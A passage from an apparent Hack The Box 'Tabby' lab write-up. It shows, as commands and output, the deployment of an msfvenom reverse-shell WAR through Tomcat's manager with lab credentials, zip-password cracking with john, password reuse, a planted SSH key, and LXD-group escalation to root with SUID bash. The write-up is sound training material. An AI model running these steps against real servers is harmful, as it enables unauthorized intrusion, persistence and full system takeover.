   curl --user username:password http://localhost:8080/manager/text/undeploy?path=/myapp
   ```
<br />

1. **Reload a Web Application:**

   This example reloads a web application without undeploying it. Replace `username`, `password`, `localhost`, `8080`, and `myapp` with your own values.
<br />

   ```bash
   curl --user username:password http://localhost:8080/manager/text/reload?path=/myapp
   ```
<br />

1. **List Deployed Applications:**

   This example lists all deployed web applications and their statuses. Replace `username`, `password`, `localhost`, and `8080` with your own values.
<br />

   ```bash
   curl --user username:password http://localhost:8080/manager/text/list
   ```
<br />

Please remember to replace the placeholders (`username`, `password`, `localhost`, `8080`, `myapp`, `/path/to/your/app.war`) with the actual values for your Tomcat configuration and use appropriate security measures when handling credentials. Additionally, these commands may need to be adjusted depending on your specific environment and requirements.

## Testing /manager/text with curl

I verified  **/manager/text** is working with curl:
<br />
```bash
└─$ curl --user 'tomcat:$3cureP4s5w0rd123!'  http://megahosting.htb:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```
## Generating WAR webshell through msfvenom

Using **msfvenom** I spawned a simple WAR shell: 
<br />
```bash
└─$  sudo msfvenom -p java/shell_reverse_tcp lhost=10.10.14.16 lport=443 -f war -o rev.10.10.14.16-443.war        

[sudo] password for yoon: 
Payload size: 13319 bytes
Final size of war file: 13319 bytes
Saved as: rev.10.10.14.16-443.war
```
<br />
I started **nc listener** with ```nc -lvnp 443```
<br />

With nc listening, I upload and triggered shell using **curl**:
<br />
```bash
┌──(yoon㉿kali)-[~/Documents/htb/tabby]
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/jadu222 --upload-file rev.10.10.14.16-443.war 
OK - Deployed application at context path [/jadu222]
                                                                                                                    
┌──(yoon㉿kali)-[~/Documents/htb/tabby]
└─$ curl http://megahosting.htb:8080/jadu222 
```
<br />
Now I have a reverse shell:
<br />
```bash
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.194] 35616
ls
conf
lib
logs
policy
webapps
work
```

# <span style="color:red">Initial foothold</span>

## User tomcat
Currently, I have a shell as user **tomcat**:
<br />

```bash
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
pwd
/var/lib/tomcat9
```
<br />
With tomcat privilege I can't get the user flag, so I need user ash privilege for user flag:
<br />

```bash
pwd
/home
cd ash
/bin/sh: 19: cd: can't cd to ash
```
<br />
I first upgraded shell using Python tty module:
<br />

```bash
python3 --version
Python 3.8.2
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/home$ 
```
<br />
I gave shell tab complete and arrow keys:
<br />

```bash
tomcat@tabby:/var/lib/tomcat9/conf$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                      
┌──(yoon㉿kali)-[~/Documents/htb/tabby]
└─$ stty raw -echo; fg                                                                                   
[2]  - continued  nc -lvnp 443

tomcat@tabby:/var/lib/tomcat9/conf$ 
```

# <span style="color:red">Privesc tomcat -> ash</span>
## Enumerating as user tomcat
Going to ```/var/www/html```, I found megahosting.htb's files:
<br />

```bash
tomcat@tabby:/var/www/html$ ls
assets  favicon.ico  files  index.php  logo.png  news.php  Readme.txt
```

On ```/files```, I found something interesting, **backup file**:

```bash
tomcat@tabby:/var/www/html/files$ ls -l
total 28
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19  2021 archive
drwxr-xr-x 2 root root 4096 Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```
<br />
I first **base64** encoded backup zip file and copied the result to my local machine, **base64**in encoding on it again. This way I can easily copy file to my local machine:
<br />

```bash
tomcat@tabby:/var/www/html/files$ base64 16162020_backup.zip 
UEsDBAoAAAAAAIUDf0gAAAAAAAAAAAAAAAAUABwAdmFyL3d3dy9odG1sL2Fzc2V0cy9VVAkAAxpv
/FYkaMZedXgLAAEEAAAAAAQAAAAAUEsDBBQACQAIALV9LUjibSsoUgEAAP4CAAAYABwAdmFyL3d3
<snip>
```
<br />
I copied base64 encoded back zip file to my local machine, naming it as **tabby.zip.b64** and un-base64 to **backup.zip**:
<br />

```bash
└─$ sudo base64 -d tabby.zip.b64 > backup.zip 
```
<br />
I tried upzipping the backup file but it requires password which I do not have:
<br />
```bash
└─$ unzip backup.zip  
Archive:  backup.zip
   creating: var/www/html/assets/
[backup.zip] var/www/html/favicon.ico password: 
```
 
## Cracking Zip password

 >zip2john is a command-line utility used to extract password hashes from password-protected ZIP archives. It's part of the John the Ripper password cracking software suite, which is widely used by security professionals and penetration testers for testing the strength of passwords and for recovering lost or forgotten passwords.
<br />

I extracted hash using zip2john and forwarded hash to hash.zip:
<br />
```
└─$ zip2john backup.zip > hash.zip
ver 1.0 backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/favicon.ico PKZIP Encr: TS_chk, cmplen=338, decmplen=766, crc=282B6DE2 ts=7DB5 cs=7db5 type=8
ver 1.0 backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/index.php PKZIP Encr: TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6 ts=5935 cs=5935 type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** backup.zip/var/www/html/logo.png PKZIP Encr: TS_chk, cmplen=2906, decmplen=2894, crc=02F9F45F ts=5D46 cs=5d46 type=0
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/news.php PKZIP Encr: TS_chk, cmplen=114, decmplen=123, crc=5C67F19E ts=5A7A cs=5a7a type=8
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/Readme.txt PKZIP Encr: TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3 ts=6A8B cs=6a8b type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                                                                                                               
┌──(yoon㉿kali)-[~/Documents/htb/tabby]
└─$ cat hash.zip       
backup.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:backup.zip
```
<br />
I used johntheripper and rockyou.txt to easily crack the password hash:
<br />

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.zip 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)     
1g 0:00:00:01 DONE (2023-09-22 03:29) 0.9803g/s 10159Kp/s 10159Kc/s 10159KC/s adornadis..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br />
Using the password found, backup zip file now can be unzipped:
<br />
```bash
└─$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt 
```
<br />
I looked through unzipped file, but nothing seemed interesting.
<br />
user **ash** might have reused his password so I tried signing in as ash and it worked using the same password:
<br />
```bash
tomcat@tabby:/var/lib/tomcat9$ su - ash
Password: 
ash@tabby:~$ 
```
# <span style="color:red">Privesc ash -> root</span>

I tried SSHing as user **ash** but it didn't work:
<br />

```bash
└─$ ssh ash@10.10.10.194     
The authenticity of host '10.10.10.194 (10.10.10.194)' can't be established.
ED25519 key fingerprint is SHA256:mUt3fTn2/uoySPc6XapKq69a2/3EPRdW0T79hZ2davk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.194' (ED25519) to the list of known hosts.

ash@10.10.10.194: Permission denied (publickey).
```

<br />
To make things easier, I am going to create a SSH private key so I can signin as ssh.
<br />
I created folder **.ssh** and generated SSH private keys in it:
<br />

```bash
ash@tabby:~/.ssh$ ssh-keygen -f id_rsa
ssh-keygen -f id_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 


Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:ZyDUYKQ5dR7xiRMQB3NRAZPi9OC3E0nIb3YKuKqCXJ4 ash@tabby
The key's randomart image is:
+---[RSA 3072]----+
|     o@B@*o.     |
|     ***+* .     |
|    +=.*=.o      |
|    ..+.Oo.      |
|     . =S=o      |
|   ..   +o       |
|o o..    .       |
|o..E             |
|o.               |
+----[SHA256]-----+
```
<br />

I set up **authoried_key** by copying public key in to it:
<br />

```bash
cat id_rsa.pub > authorized_keys
ash@tabby:~/.ssh$ ls
ls
authorized_keys  id_rsa  id_rsa.pub
```
<br />

I prepared private key on my local machine by creating and copying **id_rsa** private key inside of it:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/tabby]
└─$ sudo nano id_rsa                         
## Copied id_rsa into it                   
┌──(yoon㉿kali)-[~/Documents/htb/tabby]
└─$ sudo chmod 600 id_rsa
```
<br />
Now I can ssh into the machine, now not needing reverse shell anymore:
<br />

```ssh
┌──(yoon㉿kali)-[~/Documents/htb/tabby]
└─$ sudo ssh -i id_rsa ash@10.10.10.194
The authenticity of host '10.10.10.194 (10.10.10.194)' can't be established.
ED25519 key fingerprint is SHA256:mUt3fTn2/uoySPc6XapKq69a2/3EPRdW0T79hZ2davk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.194' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 22 Sep 2023 04:12:20 PM UTC

  System load:  0.0               Processes:               245
  Usage of /:   49.0% of 6.82GB   Users logged in:         0
  Memory usage: 33%               IPv4 address for ens160: 10.10.10.194
  Swap usage:   0%


283 updates can be installed immediately.
152 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue May 19 11:48:00 2020
ash@tabby:~$ 
```
<br />
with **id** command I can see user and group id for ash and what other users are in the same group as ash:
<br />

```bash
ash@tabby:~/test$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
<br />
**lxd** could be used to escalate our privilege to root.
<br />

## Understanding LXD & LXC
**LXD (Linux Containers Daemon):**
LXD is like a super manager for containers on a computer running Linux. It helps you create and manage these special, isolated spaces on your computer where you can run different versions of Linux or programs without them interfering with each other. Think of LXD as a friendly organizer that keeps your "containers" tidy and safe.
<br />
**LXC (Linux Containers):**
LXC is like the basic building block for containers. It's what makes containers possible in the first place. These containers are like little, self-contained worlds where you can run software without affecting the rest of your computer. Imagine it as a magic box that lets you run different things separately, as if they were on different computers, but all on the same machine.

<br/>
In simpler terms, LXD is the manager that helps you control and organize your containers, while LXC is the technology that makes those containers work. Together, they make it easier to use and manage these special compartments on your Linux computer.
<br />

According to [hackingarticles](https://www.hackingarticles.in/lxd-privilege-escalation/):

>A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.

>LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.

>One of them is to use the LXD API to mount the host’s root filesystem into a container which is going to use in this post. This gives a low-privilege user root access to the host filesystem. 


### How privesc works with LXD

privsec using lxd has two main parts:
<br />
- building alpine linux image on local side.
- moving and mounting alpine linux container to /root directory.
  
<br />
Baisc idea is to create a container on attacker's machine, move it to host machine, and mount root file system into the container. 
<br />
This is only available because user **ash** is in the same group as **lxd**.

### LXD privilege escalation

>An Alpine Linux image refers to a container image that is based on the Alpine Linux distribution. Alpine Linux is a lightweight, security-focused, and minimalistic Linux distribution known for its small size and efficiency. Alpine Linux images are often used in containerization, especially in scenarios where minimizing image size and security are priorities.

First, I downloaded alpine builder from github and ran **build-alpine**, so that I can have the compressed zip file to move over to host machine:
<br />
```bash
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md

┌──(yoon㉿kali)-[~/…/htb/tabby/www/lxd-alpine-builder-master]
└─$ sudo ./build-alpine
Determining the latest release... v3.18
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.18/main/x86_64
Downloading alpine-keys-2.4-r1.apk
<snip>
Saving to: ‘/home/yoon/Documents/htb/tabby/www/lxd-alpine-builder-master/rootfs/usr/share/alpine-mirrors/MIRRORS.txt’
/home/yoon/Documents/h 100%[=========================>]   2.59K  --.-KB/s    in 0s      
2023-09-23 10:07:44 (110 MB/s) - ‘/home/yoon/Documents/htb/tabby/www/lxd-alpine-builder-master/rootfs/usr/share/alpine-mirrors/MIRRORS.txt’ saved [2653/2653]
Selecting mirror http://mirrors.ocf.berkeley.edu/alpine//v3.18/main
fetch http://mirrors.ocf.berkeley.edu/alpine//v3.18/main/x86_64/APKINDEX.tar.gz
<snip>
(25/25) Installing alpine-base (3.18.3-r0)
Executing busybox-1.36.1-r2.trigger
OK: 10 MiB in 25 packages
```
<br />

Python server was used to move image zip file over to the host machine:
<br />
```bash
└─$ python3 -m http.server 80   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
<br />

On host machine, I changed my working directory to **tmp** and downloaded image zip file from python server:
<br />
```bash
ash@tabby:/tmp$ wget http://10.10.14.16:80/alpine-v3.18-x86_64-20230923_1008.tar.gz
--2023-09-23 14:29:49--  http://10.10.14.16/alpine-v3.18-x86_64-20230923_1008.tar.gz
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3803680 (3.6M) [application/gzip]
Saving to: ‘alpine-v3.18-x86_64-20230923_1008.tar.gz’

alpine-v3.18-x86_64-20230923_10 100%[=======================================================>]   3.63M   586KB/s    in 6.8s    

2023-09-23 14:29:58 (545 KB/s) - ‘alpine-v3.18-x86_64-20230923_1008.tar.gz’ saved [3803680/3803680]
```
<br />

Next, I imported the downloaded image to **lxc**:
<br />
```bash
ash@tabby:/tmp$ lxc image import /tmp/alpine-v3.18-x86_64-20230923_1008.tar.gz --alias jadu-image
Image imported with fingerprint: ded1da91166cfa3bf4e53ae5e092244f1d93984bb6bdb83beca8b096717ce2b3
```
<br />

I initilized **lxd** before making container:
<br />
```bash
ash@tabby:/tmp$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (zfs, ceph, btrfs, dir, lvm) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=5GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
```
<br />
I created container, naming it **container-jadu** and giving it root privilege:
<br />
```bash
ash@tabby:/tmp$ lxc init jadu-image container-jadu -c security.privileged=true
Creating container-jadu
```
<br />
I mounted **/mnt/root** as a shared folder between container and the host machine. Using this I'll be able to access the host machine's root.
<br />
```bash
ash@tabby:/tmp$ lxc config device add container-jadu device-jadu disk source=/ path=/mnt/root
Device device-jadu added to container-jadu
```
<br />
Next, I first checked whether **container-jadu** is on the list and ran it:
<br />
```bash
ash@tabby:/tmp$ lxc list
+----------------+---------+------+------+-----------+-----------+
|      NAME      |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+----------------+---------+------+------+-----------+-----------+
| container-jadu | STOPPED |      |      | CONTAINER | 0         |
+----------------+---------+------+------+-----------+-----------+
ash@tabby:/tmp$ lxc start container-jadu
ash@tabby:/tmp$ lxc list
+----------------+---------+-----------------------+-----------------------------------------------+-----------+-----------+
|      NAME      |  STATE  |         IPV4          |                     IPV6                      |   TYPE    | SNAPSHOTS |
+----------------+---------+-----------------------+-----------------------------------------------+-----------+-----------+
| container-jadu | RUNNING | 10.250.219.118 (eth0) | fd42:17c3:95f2:56e2:216:3eff:fec4:55e4 (eth0) | CONTAINER | 0         |
+----------------+---------+-----------------------+-----------------------------------------------+-----------+-----------+
```

Using **exec** and **/bin/sh**, I can gain access to root:
<br />
```bash
ash@tabby:/tmp$ lxc exec container-jadu /bin/sh
~ # id
uid=0(root) gid=0(root)
```
<br />
**root.txt** is inside **/mnt/root/root**
<br />

# <span style="color:red">Additional Notes</span>
## Why SSH instead of reverse shell
We can be using reverse shell the entire time but I prefer ssh. 
<br />
Obviously, SSH is much more stable and reverse shell just leaves too much track behind.
<br />
Below is what host machine system looks like when I was developing shell on it:
<br />
```bash
ash@tabby:~/.ssh$ ps -aef --forest
ps -aef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
<snip>
tomcat     80411     925  0 15:54 ?        00:00:00  \_ /bin/sh
root       80420   80411  0 15:54 ?        00:00:00      \_ su - ash
ash        80421   80420  0 15:54 ?        00:00:00          \_ -bash
ash        80473   80421  0 15:55 ?        00:00:00              \_ python3 -c i
ash        80474   80473  0 15:55 pts/6    00:00:00                  \_ /bin/bas
ash        80728   80474  0 16:05 pts/6    00:00:00                      \_ ps -
<snip>
```

## Develop a root shell

From [oxdf's writeup](https://0xdf.gitlab.io/2020/11/07/htb-tabby.html), I learned this new method on how to develop a root shell by giving bash SUID permission:
<br />
```bash
/mnt/root/usr/bin # ls -l bash
-rwxr-xr-x    1 root     root       1183448 Feb 25  2020 bash
/mnt/root/usr/bin # chmod 4755 bash
/mnt/root/usr/bin # ls -l bash
-rwsr-xr-x    1 root     root       1183448 Feb 25  2020 bash
/mnt/root/usr/bin # ^C

/mnt/root/usr/bin # 
ash@tabby:~$ bash -p
bash-5.0# id
uid=1000(ash) gid=1000(ash) euid=0(root) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
<br />Thank you for reading!

<br />


## Sources:
- https://www.infosecmatter.com/nessus-plugin-library/?id=136806
- https://github.com/PenTestical/CVE-2020-9484
- https://www.rapid7.com/db/vulnerabilities/apache-tomcat-cve-2020-9484/
- https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/
- https://www.hackingarticles.in/lxd-privilege-escalation/
- https://0xdf.gitlab.io/2020/11/07/htb-tabby.html


